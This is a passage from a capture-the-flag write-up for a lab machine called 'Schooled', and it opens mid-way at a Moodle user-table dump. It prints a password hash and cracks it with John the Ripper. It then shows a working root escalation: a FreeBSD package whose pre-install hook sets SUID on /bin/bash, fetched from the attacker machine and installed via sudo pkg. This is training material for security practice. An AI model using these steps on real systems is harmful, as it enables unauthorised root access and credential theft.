| mdl_assign_user_mapping         |
| mdl_chat_users                  |
| mdl_competency_usercomp         |
| mdl_competency_usercompcourse   |
| mdl_competency_usercompplan     |
| mdl_competency_userevidence     |
| mdl_competency_userevidencecomp |
| mdl_enrol_lti_lti2_user_result  |
| mdl_enrol_lti_users             |
| mdl_external_services_users     |
| mdl_message_user_actions        |
| mdl_message_users_blocked       |
| mdl_oauth2_user_field_mapping   |
| mdl_portfolio_instance_user     |
| mdl_stats_user_daily            |
| mdl_stats_user_monthly          |
| mdl_stats_user_weekly           |
| mdl_tool_usertours_steps        |
| mdl_tool_usertours_tours        |
| mdl_user                        |
| mdl_user_devices                |
| mdl_user_enrolments             |
| mdl_user_info_category          |
| mdl_user_info_data              |
| mdl_user_info_field             |
| mdl_user_lastaccess             |
| mdl_user_password_history       |
| mdl_user_password_resets        |
| mdl_user_preferences            |
| mdl_user_private_key            |
+---------------------------------+
31 rows in set (0.00 sec)

moodle@localhost [moodle]> select * from mdl_user where firstname = 'Jamie';
+----+--------+-----------+--------------+---------+-----------+------------+----------+--------------------------------------------------------------+----------+-----------+----------+--------------------------+-----------+-----+-------+-------+-----+-----+--------+--------+-------------+------------+---------+-------------+---------+------+--------------+-------+----------+-------------+------------+------------+--------------+--------------+--------+---------+-----+-------------+-------------------+------------+------------+-------------+---------------+-------------+-------------+--------------+--------------+----------+------------------+-------------------+------------+---------------+------------------+
| id | auth   | confirmed | policyagreed | deleted | suspended | mnethostid | username | password                                                     | idnumber | firstname | lastname | email                    | emailstop | icq | skype | yahoo | aim | msn | phone1 | phone2 | institution | department | address | city        | country | lang | calendartype | theme | timezone | firstaccess | lastaccess | lastlogin  | currentlogin | lastip       | secret | picture | url | description | descriptionformat | mailformat | maildigest | maildisplay | autosubscribe | trackforums | timecreated | timemodified | trustbitmask | imagealt | lastnamephonetic | firstnamephonetic | middlename | alternatename | moodlenetprofile |
+----+--------+-----------+--------------+---------+-----------+------------+----------+--------------------------------------------------------------+----------+-----------+----------+--------------------------+-----------+-----+-------+-------+-----+-----+--------+--------+-------------+------------+---------+-------------+---------+------+--------------+-------+----------+-------------+------------+------------+--------------+--------------+--------+---------+-----+-------------+-------------------+------------+------------+-------------+---------------+-------------+-------------+--------------+--------------+----------+------------------+-------------------+------------+---------------+------------------+
|  2 | manual |         1 |            0 |       0 |         0 |          1 | admin    | $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW |          | Jamie     | Borham   | jamie@staff.schooled.htb |         0 |     |       |       |     |     |        |        |             |            |         | Bournemouth | GB      | en   | gregorian    |       | 99       |  1608320129 | 1608729680 | 1608681411 |   1608729680 | 192.168.1.14 |        |       0 |     |             |                 1 |          1 |          0 |           0 |             1 |           0 |           0 |   1608389236 |            0 |          |                  |                   |            |               |                  |
+----+--------+-----------+--------------+---------+-----------+------------+----------+--------------------------------------------------------------+----------+-----------+----------+--------------------------+-----------+-----+-------+-------+-----+-----+--------+--------+-------------+------------+---------+-------------+---------+------+--------------+-------+----------+-------------+------------+------------+--------------+--------------+--------+---------+-----+-------------+-------------------+------------+------------+-------------+---------------+-------------+-------------+--------------+--------------+----------+------------------+-------------------+------------+---------------+------------------+
1 row in set (0.00 sec)

moodle@localhost [moodle]>
```

### John

To crack the password, we'll use john:

```
└─$ sudo john --wordlist=/usr/share/wordlists/rockyou.txt jamie_hash 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!QAZ2wsx         (?)
1g 0:00:01:54 DONE (2021-09-11 12:42) 0.008765g/s 121.8p/s 121.8c/s 121.8C/s aldrich..superpet
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

We now have the following creds:\
jamie:!QAZ2wsx

Let's see if we can switch users:

```
[www@Schooled /]$ su jamie
Password:
$ id
uid=1001(jamie) gid=1001(jamie) groups=1001(jamie),0(wheel)
$ 
```

Nice, we can login as jamie, and we can also gran the user flag which is in his home directory.

### Enumeration as "jamie"

One of the first things I normally check is whether or not a user can execute commands as root, so let's go ahead and do that.

```
[jamie@Schooled ~]$ sudo -l
User jamie may run the following commands on Schooled:
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install *
[jamie@Schooled ~]$
```

A quick look at GTFOBins and we find the following entry:

> ```
> TF=$(mktemp -d)
> echo 'id' > $TF/x.sh
> fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
> ```
>
> ```
> sudo pkg install -y --no-repo-update ./x-1.0.txz
> ```

### Sudo command privilege escalation

Nice. First, we need to install FPM:

```
sudo gem install fpm
```

Next, we need to create the package:

```
└─$ echo 'chmod u+s /bin/bash' > x.sh
└─$ fpm -n x -s dir -t freebsd -a all --before-install x.sh .
Created package {:path=>"x-1.0.txz"}

```

Host the file on our attacker machine:

```
└─$ sudo python3 -m http.server 80                           
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.234 - - [11/Sep/2021 13:16:17] "GET /x-1.0.txz HTTP/1.1" 200 -

^C
```

Download the file from the target machine:

```
[jamie@Schooled ~]$ curl -O http://10.10.19.99/x-1.0.txz                   
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  598k  100  598k    0     0  1045k      0 --:--:-- --:--:-- --:--:-- 1043k
[jamie@Schooled ~]# ls -l
total 609
-r--------  1 jamie  jamie      33 Sep 11 13:49 user.txt
-rw-r--r--  1 jamie  jamie  612380 Sep 11 18:16 x-1.0.txz
[jamie@Schooled ~]#
```

We need to extract it using the following command:

```
[jamie@Schooled ~]$ sudo pkg install -y --no-repo-update ./x-1.0.txz 
pkg: Repository FreeBSD has a wrong packagesite, need to re-create database
pkg: Repository FreeBSD cannot be opened. 'pkg update' required
Checking integrity... done (0 conflicting)
The following 1 package(s) will be affected (of 0 checked):

New packages to be INSTALLED:
        x: 1.0

Number of packages to be installed: 1
[1/1] Installing x-1.0...
Extracting x-1.0:   0%
pkg: File //41828.php not specified in the manifest
Extracting x-1.0: 100%
[jamie@Schooled ~]$
```

Finally, we simply run "bash -p" to get root privileges:

```
[jamie@Schooled ~]$ bash -p
[jamie@Schooled ~]# id
uid=1001(jamie) gid=1001(jamie) euid=0(root) groups=1001(jamie),0(wheel)
[jamie@Schooled ~]#
```

We can now grab the root flag.

## Summary

This was a great box to learn some very useful techniques. The foothold was the most frustrating part of this box, as it required a number of steps that a beginner would have found to be quite challenging. This included finding the "VHOST" running on the target system. After that we had to use two CVE's to get RCE on the box which finally resulted in a shell.

Once we were on the box, we had to find the password for the user "jamie". This was done by first finding the moodle config.php file, which contained creds for the mysql database. We then had to update our $PATH environment variable in order to run most of the programs on the system, including mysql. We were then able to successfully login to mysql and find the encrypted password for the target user. Finally, we used "john" to crack the password and then logged in as "jamie".

To get to root, we checked the commands "jamie" could run as root via "sudo -l". The "pkg" binary was in the list, and a quick check of GTFOBins lead us on the path to root. We simply had to create a new FreeBSD package using the "fpm" ruby program. The packaged file simply changed the SUID bit on /bin/bash. Once we uploaded the package and installed it, all that was left to do was to run bash to get a shell as root.

## Resources









